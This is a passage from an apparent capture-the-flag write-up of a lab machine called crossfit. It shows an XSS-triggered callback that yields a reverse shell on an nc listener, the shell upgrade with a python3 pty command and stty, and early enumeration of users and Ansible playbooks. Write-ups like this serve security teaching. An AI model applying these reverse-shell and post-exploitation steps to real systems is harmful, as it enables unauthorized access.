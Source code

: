 I’ll send the XSS request to trigger it, see it requested from Python webserver, and a shell arrives at `nc`:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.208.
Ncat: Connection from 10.10.10.208:35308.
bash: cannot set terminal process group (695): Inappropriate ioctl for device
bash: no job control in this shell
www-data@crossfit:/var/www/development-test$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

I’ll upgrade my shell:

```

www-data@crossfit:/home$ python3 -c 'import pty;pty.spawn("bash")'
www-data@crossfit:/home$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@kali# stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@crossfit:/home$

```

## Shell as hank

### Enumeration

There are two users on this box:

```

www-data@crossfit:/home$ ls
hank  isaac

```

I can see into the root of each directory (`hank` has `user.txt`), but can’t read anything.

Eventually in digging around, I find `/etc/ansible`. [Ansible](https://www.ansible.com/) provide a way to automate the creating and provisioning of hosts using “playbooks” that describe different aspects.

There’s one playbook in `/etc/ansible/playbooks`:
